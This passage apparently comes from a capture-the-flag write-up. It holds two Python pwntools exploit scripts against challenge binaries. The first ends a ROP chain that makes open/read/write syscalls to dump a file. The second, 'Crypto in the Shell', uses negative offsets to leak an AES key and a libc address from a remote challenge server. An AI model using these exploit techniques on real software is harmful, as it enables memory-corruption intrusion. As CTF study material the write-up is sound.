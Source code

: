 ```python=
  pop_rdi = libc + 0x0000000000026542
  pop_rsi = libc + 0x0000000000026f9e
  pop_rdx = libc + 0x000000000012bda6
  pop_rax = libc + 0x0000000000047cf8
  syscall = libc + 0xcf6c5
  magic( p64(add_rsp48))
  name(0,p64(pop_rdi) + p64(heap + 0x24d0) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscall) +
      p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(heap) + p64(pop_rdx) + p64(0x100) + p64(pop_rax) + p64(0) + p64(syscall) +
      p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(heap) + p64(pop_rdx) + p64(0x100) + p64(pop_rax) + p64(1) + p64(syscall)
      )
r.interactive()

```


### Crypto in the Shell

```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from Crypto.Cipher import AES
from pwn import *
import sys
import time
import random
host = '3.113.219.89'
port = 31337

binary = "./chall"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def e(offset,size):
  r.recvuntil("ffset:")
  r.sendline(str(offset))
  r.recvuntil(":")
  r.sendline(str(size))
  pass

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  e(-32,15) # overwirte key & get key
  key = r.recv(16)
  aes = AES.new(key, AES.MODE_CBC, "\x00"*16)

  e(-64,15) # leak libc
  sec = r.recv(16)
  data = aes.decrypt(sec)
  libc = u64(data[:8].ljust(8,"\x00")) - 0x3ec680
```